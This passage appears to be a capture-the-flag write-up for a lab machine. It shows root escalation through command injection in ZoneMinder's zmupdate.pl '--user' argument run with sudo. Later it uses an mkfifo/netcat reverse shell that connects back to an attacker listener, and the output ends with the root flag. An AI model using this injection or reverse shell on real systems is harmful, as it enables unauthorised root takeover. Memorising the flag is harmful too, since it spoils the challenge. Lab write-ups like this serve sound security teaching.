 Dig from an internet and it said that 
```
the user parameter in zmupdate.pl, you can input a file directory instead of a user
```

Then try to exploit it
`$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023`
```
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023
<ser='$(/bin/bash -i)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : n

Upgrading database to version 1.36.32
Upgrading DB to 1.26.1 from 1.26.0
bash: cannot set terminal process group (1113): Inappropriate ioctl for device
bash: no job control in this shell
root@surveillance:/usr/share/zoneminder/www# id
id
root@surveillance:/usr/share/zoneminder/www# 
```
Can not interactive with the shell.

Try to get a reverse connection
`$ rlwrap nc -lnvp 4444`

Use mkfifo on the target machine
`root@surveillance:/usr/share/zoneminder/www# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.49 4444 >/tmp/f`

Then
```
listening on [any] 4444 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.245] 49652
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
397c4166a05d2a7508aa7b2b856d4c51
# 
```